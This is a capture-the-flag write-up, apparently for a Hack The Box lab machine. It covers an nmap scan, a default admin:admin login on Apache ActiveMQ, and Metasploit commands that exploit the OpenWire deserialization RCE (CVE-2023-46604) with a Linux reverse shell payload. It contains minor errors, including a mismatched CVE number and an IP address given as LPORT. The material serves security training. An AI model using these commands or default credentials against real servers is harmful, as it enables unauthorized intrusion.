___
## Machine Information

- **Machine Name:** Broker
- **Machine IP:** 10.10.11.243
- **Machine Type:** Easy
- **Machine OS:** Linux

___
## Reconnaissance - gather info

This might seem like a boring part of hacking, where you will have to consider every single information that you get out of the target. If you do not find a way to enjoy this step, then forget about exploits, because information is superior than exploits.

> *"Stuxnet was a success not because it was a great exploit, but because they knew what they were exploiting"*

Gathering information about the target might take days, but in our case it should take few minutes or an hour because this is not a real life scenario. I started with the obvious thing, ports scan.

### Ports and Services Scan

If you only have an IP of the target, then ports and services scanning is very crucial stage, because it will give you all open doors from which you can enter into the system. Yes, it is not that simple, but it is what it is.




**Command I performed:**

`sudo nmap -sVC -p- -O 10.10.11.243 | tee nmapBroker.txt`

**Understanding the command:**

- **-sVC** - This is a concatenate option with -sV (version scan) and -sC (default script scan). If you want to know more, read my [Lame](HTB-LINUX/Lame_Machine) writeup.
- **-p-** - This is used for scanning all open ports out of 65535 ports.
- **-O** - This is used to scan for predicting what OS is used by the target.

**Output:**
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-08 16:56 EDT
Nmap scan report for 10.10.11.243
Host is up (0.022s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
37797/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
| http-methods: 
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.94SVN%I=7%D=4/8%Time=67F58DA7%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x1
SF:0\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x
SF:01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20c
SF:lient\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,"
SF:AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\x
SF:a1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\
SF:x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using\
SF:x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0\
SF:0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\
SF:0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp
SF::decode-error\xa17Connection\x20from\x20client\x20using\x20unsupported\
SF:x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\
SF:0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\
SF:x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17
SF:Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempt
SF:ed")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x1
SF:9\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\
SF:0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connec
SF:tion\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r
SF:(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0
SF:\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\
SF:x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x2
SF:0from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSes
SF:sionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\x
SF:c0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\
SF:0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20clie
SF:nt\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCooki
SF:e,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c
SF:\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d
SF:\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20
SF:using\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.94SVN%I=7%D=4/8%Time=67F58DA2%P=x86_64-pc-linux-gnu%r
SF:(HELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20STO
SF:MP\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Proto
SF:colException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apac
SF:he\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Prot
SF:ocolConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.st
SF:omp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n
SF:\tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(
SF:TransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.
SF:tcp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache
SF:\.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)
SF:\n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61616-TCP:V=7.94SVN%I=7%D=4/8%Time=67F58DA2%P=x86_64-pc-linux-gnu%r
SF:(NULL,140,"\0\0\x01<\x01ActiveMQ\0\0\0\x0c\x01\0\0\x01\*\0\0\0\x0c\0\x1
SF:1TcpNoDelayEnabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\tCacheSize\x
SF:05\0\0\x04\0\0\x0cProviderName\t\0\x08ActiveMQ\0\x11StackTraceEnabled\x
SF:01\x01\0\x0fPlatformDetails\t\0\x04Java\0\x0cCacheEnabled\x01\x01\0\x14
SF:TightEncodingEnabled\x01\x01\0\x0cMaxFrameSize\x06\0\0\0\0\x06@\0\0\0\x
SF:15MaxInactivityDuration\x06\0\0\0\0\0\0u0\0\x20MaxInactivityDurationIni
SF:talDelay\x06\0\0\0\0\0\0'\x10\0\x0fProviderVersion\t\0\x075\.15\.15");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/8%OT=22%CT=1%CU=38617%PV=Y%DS=2%DC=I%G=Y%TM=67F58
OS:DC8%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=FF%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.35 seconds

```

As it is clear from the length of the scan that we have too many open ports and services. Most of the time, it is only one vulnerable port that becomes the cause for the hack. Nevermind, I started analysing the ports and trust me, OpenSSH 8.9p1 is not vulnerable. I have met this bad buddy in so many machines, and once I even wasted a whole hour exploiting it but terribly failed, so I am not going to that route again. If you follow down, you will see port 80 with nginx 1.18.0, and other ports that run services related to webserver, they look vulnerable but my attention was stuck on the *port 61616 - apachemq*

Why apachemq? First reason, I have not heard about it a lot in CTFs, so I am assuming that it will teach us something new. Second reason, I have somewhat wasted my time in finding vulnerabilities in other ports and they are vulnerable but nothing that I can utilize right now. If you pay little more attention on the output, then you will also see the version of the service *apachemq 5.15.15*. There was also a port 80 open, so what we do when we see port 80? If you have guessed to open the website running on that port, then congrats! You have a hacker mindset.



I opened the website and found an alert login box, but I was not knowing the username and password so I decided to type random things at first. I initially typed *admin* as username and *password* as password, and it showed failed login. I tried again with **admin** as username and password (I am old-school) and damn, I was successfully logged in. I was surprised and searched for ActiveMQ default credentials on the Internet (I was sure that login is related to ActiveMQ), and found the same credentials mentioned.





Looking at the logo of the website, now we can safely say that it is running ActiveMQ. Now my confidence it just touching the sky that this is the vulnerable service that we are gonna hack, and keeping this in focus I started my research on ActiveMQ. I have summarized my findings below, but I really recommend searching it by yourself and learning more about it.

**What is ActiveMQ?**
ActiveMQ is a message broker, which are software that act as messengers between two or more applications, even if they all were written in different programming languages. Its primary purpose is to help various applications and services to communicate with each others.

**Types of Brokers?**
1. **Point-to-Point messaging:** One-to-one relationship between the sender and receiver. Each message in the queue is sent to only one recipient and is consumed only once.
2. **Publish/subscribe messaging:** The producer of each message publishes it to a topic, and multiple message consumers subscribe to topics from which they want to receive messages.

**Links:**
1. [ActiveMQ](https://activemq.apache.org/)
2. [Wikipedia-ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ)

___
## Exploitation: Gaining access

Apache ActiveMQ is running on port 61616, which is a popular open source message broker built on top of Java. They are implementations of the Java Messaging Service (JMS) which allows applications to send data back and forth between one another. I searched for exploits on ActiveMQ on searchsploit and expected to get something, but ended up with no match with version 5.15.15.



> *"Sometimes it is good to jump into a rabbit hole, you will learn a lot from it"*

I didn't stopped my search and went on the Internet for Common Vulnerabilities and Exposures on this particular version of the Apache ActiveMQ. After a long search (only few seconds), I found a very interesting thing, something that is very feared in the community of defensive security, it is a RCE (Remote Code Execution) vulnerability.



Finally we were able to find a vulnerability. I am confident that it can be our way in, because firstly it is on Java OpenWire Protocol and secondly, recommendation is to update to 5.15.16 version, which indirectly suggests that 5.15.15 is vulnerable to this. Now, I started a search for exploit and I wanted to understand how the exploit is working.



I found a metasploit module exploit which is used for a deserialization vulnerability in the OpenWire protocol, and it also recommends to update Apache ActiveMQ to 5.15.16. I have explained the vulnerability in detail below, and a more detailed version will be available on my discord.

**Links:**
1. [CVE-2023-46606](https://nvd.nist.gov/vuln/detail/cve-2023-46604)
2. [Exploit](https://packetstorm.news/files/id/175676)

### Metasploit: activeMQ exploit

After some research on what the exploit is, how it works and why the vulnerability is affected by this exploit, I immediately opened metasploit for testing this exploit. While doing my research, I was confident that this will work and fun part was that it will give me a user-level access, which means I will have an opportunity to perform privilege escalation.

**Commands I performed:**
```
msfconsole
msf> search Apache activeMQ
msf> use 7
msf> show options
msf> info
msf> show targets
msf> set target 1
msf> set RHOSTS 10.10.11.243
msf> set LPORT 10.10.14.12
msf> set payload cmd/linux/http/x86/shell_reverse_tcp
msf> set SRVPORT 4343
msf> exploit
```

**Understanding commands:**
- **search Apache activeMQ** - This actively search for available exploits on activeMQ.
- **use 7** - We found our exploit on index 7, so we will use it.
- **show targets** - Before setting options, we will have to view available targets because this exploit has default target as windows and we do not want that.
- **set target 1** - In my case, Linux was on index 1. Setting target to Linux.
- **set RHOSTS, LPORT, payload** - These are options that we are setting. RHOSTS is target's IP, LPORT is our local port for reverse shell, and payload is linux compatible reverse shell.
- **set SRVPORT 4343** - I was not setting this option before, and it gave me the error that something is running on 8080 (default SRVPORT), so I changed the SRVPORT.






I looked at the default target and it was Windows, but in our scenario we need it to be Linux. I set the target to Linux and configure other options.



